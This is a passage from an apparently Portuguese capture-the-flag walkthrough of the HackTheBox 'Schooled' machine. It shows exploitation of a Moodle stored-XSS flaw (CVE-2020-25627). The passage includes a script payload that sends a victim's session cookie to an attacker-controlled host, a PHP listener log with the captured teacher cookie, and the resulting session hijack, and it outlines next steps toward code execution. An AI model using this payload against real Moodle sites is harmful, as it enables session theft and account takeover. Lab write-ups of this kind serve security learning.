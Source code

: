 Isso significa que o professor Manuel Philips verificará todos os perfis MoodleNet dos alunos que se inscreveram na matéria e, caso possamos armazenar um XSS neste atributo, poderemos utilizar deste artifício para roubar a sessão do professor a partir dos atributos do cabeçalho da requisição. Com acesso na plataforma, dependendo dos privilégios do professor, podemos buscar por uma oportunidade de RCE.

## Acesso inicial

Buscando por **MoodleNet XSS**, encontrei este [Security Announcement](https://moodle.org/mod/forum/discuss.php?d=410839) que menciona o **CVE-2020-25627**, corrigido apenas na versão 3..9.2 e afeta as versões 3.9 e 3.9.1, que coincide com nosso cenário.

Buscando por uma prova de conceito (PoC) para este CVE, encontrei o repositório [HoangKien1020/CVE-2020-25627: Stored XSS via moodlenetprofile parameter in user profile (github.com)](https://github.com/HoangKien1020/CVE-2020-25627) que contém as instruções para exploração, que foram implementadas e me permitiram obter o cookie da sessão do professor, conforme evidencia abaixo:

* Loguei com a conta recentemente criada e modifiquei o MoodleNet profile para o conteúdo abaixo

  ```html
  <script>var i=new Image;i.src="http://10.10.10.10/xss.php?"+document.cookie;</script>
  ```

* Hospedei o arquivo `xss.php` mencionado no repositório em uma pasta e iniciei um PHP Webserver com os comandos abaixo e, cerca de 2 minutos depois, comecei a receber as requisições da conta do professor, nos mostrando os cookies utilizados por ele.

  ```bash
  $ sudo php -S 0.0.0.0:80 -t .
  [Mon Aug  9 14:44:05 2021] PHP 7.4.21 Development Server (http://0.0.0.0:80) started
  [Mon Aug  9 14:45:28 2021] 10.10.10.234:55102 Accepted
  [Mon Aug  9 14:45:28 2021] PHP Notice:  Undefined index: METHOD in /opt/dcruz/htb/schooled-10.10.10.234/exploit/www/xss.php on line 28
  [Mon Aug  9 14:45:28 2021] PHP Notice:  Undefined index: REMOTE_HOST in /opt/dcruz/htb/schooled-10.10.10.234/exploit/www/xss.php on line 29
  [Mon Aug  9 14:45:28 2021] 10.10.10.234:55102 [200]: GET /xss.php?MoodleSession=d8so1t4rs4vmg8btrgfr2ps6fr
  [Mon Aug  9 14:45:28 2021] 10.10.10.234:55102 Closing
  
  ```

Agora sabendo quais os parametros da sessão do professor, alterei o valor do cookie no meu navegador e, após atualizar a página, pude observar que a conta agora é listada como a do professor Manuel Philips.

![HTB Schooled - Moodle as Manuel Philips](https://i.imgur.com/n3plh19.png){: .align-center}

Agora que temos acesso a outra conta, necessitamos validar se as permissões possuidas por este usuário são suficientes para dar continuidade na exploração, vindo a obter um RCE.

Pesquisando sobre explorações em Moodle em [Moodle - HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-web/moodle#rce), encontrei qeu é necessário o privilégio de *manager* para realizar o upload de um plugin, método mais eficiente para obter execução de código via aplicação. Mesmo não tendo esta permissão com o usuário do professor, observado que esta versão em execução **também é vulnerável à** [**Escalação de privilégio**](https://moodle.org/mod/forum/discuss.php?d=407393), que poderia nos permitir obter o acesso de manager a partir do curso abusando o processo de inscrição e, se um dos estudantes for um dos *site managers*, este privilégio poderia ser explorado para a finalidade desejada, que é realizar o upload de um plugin malicioso. O mesmo autor da PoC do outro CVE também possui [um repositório no Github](https://github.com/HoangKien1020/CVE-2020-14321) contendo uma PoC que poderia nos auxiliar nesta tarefa.
